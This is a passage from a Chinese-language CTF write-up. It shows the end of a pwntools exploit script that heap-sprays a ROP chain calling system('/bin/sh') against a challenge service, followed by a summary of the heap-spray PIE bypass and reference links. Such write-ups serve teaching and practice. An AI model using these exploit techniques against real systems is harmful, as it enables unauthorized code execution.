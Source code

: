 ```py

    magic_gadget2 = 0x00072e1a# 0x00072e1a : xchg eax, esp ; sal bh, 0xd8 ;

    system_offest = 0x3a940

    binsh_addr = 0x15902b

    data = []

    for i in range(0x10):

        data.append([p32(heap_start_addr + 12) * (0x1000 / 4 - 1), 1])

    malloc(0x1000, data)

    delete()



    data = []

    for i in range(0x10):

        data.append([(p32(libc_addr + magic_gadget2) + p32(0) + p32(libc_addr

    + magic_gadget1) + p32(0) * 4 + p32(libc_addr + system_offest) + p32(0) +

    p32(libc_addr + binsh_addr)).ljust(0xa0 -1, '\x00'), 0])

    malloc(0xa0, data)

    gdb.attach(p)

    callfuc(0)

    p.interactive()

GameStart('10.112.100.47', 9999, 2)
```

### 总结

这道题实际上并没有用到标准的堆喷获取控制流的技术，但是在解题过程中应用到了这种`堆喷`的思维来`bypass PIE`。我们通过分配大量内存以及堆风水来达到控制程序反馈信息进而获得地址的目的，这种宏观意义上对于堆分配的利用同传统`glib pwn`上考察几个堆块之间分配释放利用技巧不同，更注重大家对于全局的思考，是一道非常精妙的二进制题目。这里再次感谢`w1tcher`师傅赛后提供的writeup和exp，以及`p4nda`师傅对我的帮助。

## 参考

[演示Heap Spray(堆喷射)的原理](https://blog.csdn.net/lixiangminghate/article/details/53413863)

[Linux内核通用堆喷射技术详解](https://xz.aliyun.com/t/2814)

[Microsoft-virtual-address-spaces](https://docs.microsoft.com/zh-cn/windows-hardware/drivers/gettingstarted/virtual-address-spaces)
